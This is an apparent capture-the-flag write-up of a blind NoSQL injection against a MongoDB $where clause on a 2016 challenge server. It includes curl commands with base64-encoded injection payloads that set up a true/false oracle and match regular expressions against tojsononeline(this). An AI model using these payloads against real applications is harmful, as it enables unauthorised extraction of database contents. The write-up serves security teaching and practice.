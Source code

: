 This `undefined` should ring a bell, since is very common in Javascript. We also see that some special chars or words, like single quotes, cause an error:

```bash
$ curl -I "http://challenges.ka0labs.org:31337/avatar/$(echo -ne \' | base64)"
HTTP/1.1 500 Internal Server Error
Server: nginx
Date: Thu, 06 Oct 2016 13:19:13 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 20
Connection: keep-alive
ETag: W/"14-T/08Zi7QtXFVEDkd9P0Srw"
```

<img alt="500 error page" width="40%" src="https://raw.githubusercontent.com/ka0labs/ctf-writeups/master/2016/nn6ed/imgs/mongojojo-2.png">

With the title of the challenge we can guess that this was about a NoSQL injection, so we try to get a true/false query.

True:

```bash
$ curl -s -I "http://challenges.ka0labs.org:31337/avatar/$(echo -ne 'Cactus"&&(true)||"' | base64)" | grep Location
Location: /imgs/cactus.png
```

False:

```bash
$ curl -s -I "http://challenges.ka0labs.org:31337/avatar/$(echo -ne 'Cactus"&&(false)||"' | base64)" | grep Location
Location: /imgs/undefined
```

Ok, it's a blind injection, so the first attempt is try to enumerate the collections in the database: `db.getCollectionNames()`. Unfortunately, any access to the `db` object seems to fail.

At this point some hints were released:

> $where is my mind? https://www.youtube.com/watch?v=yFAnn2j4iB0

> RTFM: https://docs.mongodb.com/manual/reference/operator/query/where/

Now it should be obvious that the injection is inside a `$where` expression, for that reason we didn't have access to most objects. We had 2 options: guess the collection structure (was possible since the parameters were `username` and `password`, most users followed this way), or read the documentation and use some of the allowed methods.

Our expected solution uses `tojsononeline` and the regexp's `match` method. 

```bash
$ curl -s -I "http://challenges.ka0labs.org:31337/avatar/$(echo -ne 'Cactus"&&(tojsononeline(this).match(/^.*$/))||"' | base64)" | grep Location
Location: /imgs/cactus.png
```

The object `this` in a `$where` expression points to the document being queried in the current collection. So we only need to automatize the process :D
